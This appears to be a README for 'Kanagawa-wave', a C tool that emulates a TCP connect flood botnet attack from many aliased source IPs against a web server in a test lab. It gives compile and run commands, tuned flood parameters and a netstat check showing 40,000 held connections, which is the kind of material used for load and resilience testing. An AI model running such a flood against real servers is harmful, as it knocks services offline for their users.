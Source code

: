 #### Kanagawa-wave

TCP connect flood botnet attack emulation

#### Test lab

To emulate botnet attack from many ips, attcker's eth0 aliased with ips from 172.26.0.0/16 subnet (BLOCK I on pic. 1). Static route to 172.26.0.0/16 to attackers PC on router (BLOCK II on pic. 1). Router is in between attacker and web server (BLOCK III on pic. 1)

![scheme pic. 1](doc/test_lab_scheme.png)

_Pic. 1 test lab scheme_

#### Installation

On _attacker_ machine run: 
```
botnet@attacker: gcc -o kanagawa-wave kanagawa-wave.c -lpthread
botnet@attacker: ./kanagawa-wave -h
./kanagawa-wave [ -i epair0b -n 1 -c 1000 -t 10 -d 10.134.23.123 -p 443]
        -i interface name
        -n rotate this amount of source ips aliased to "-i interface"
        -c connections to hold
        -t threads
        -d destination ip
        -p port
        -r reconnect broken sockets [experimental]
```

#### Examples

##### Bad usage
```
./kanagawa-wave -i eth0 -n 40000 -c 40000 -t 10 -d 172.25.3.1 -p 443
                           ^        ^
Use 40k different src IPs to hold 40k connections. 1 TCPconn per IP is not TCP connect flood
```
##### Good usage
```
./kanagawa-wave -i eth0 -n 10 -c 40000 -t 10 -d 172.25.3.1 -p 443
                           ^        ^
Use 10 different src IPs to hold 40k connections. 4000 TCPconn per IP looks like TCP connect flood
```
##### POC

After launching ```kanagawa-wave``` check amount of TCP connections
on ```web server```(BLOCK III pic.1)
```
netstat -p tcp -ss | grep -i established
40000 connections in ESTABLISHED state
```

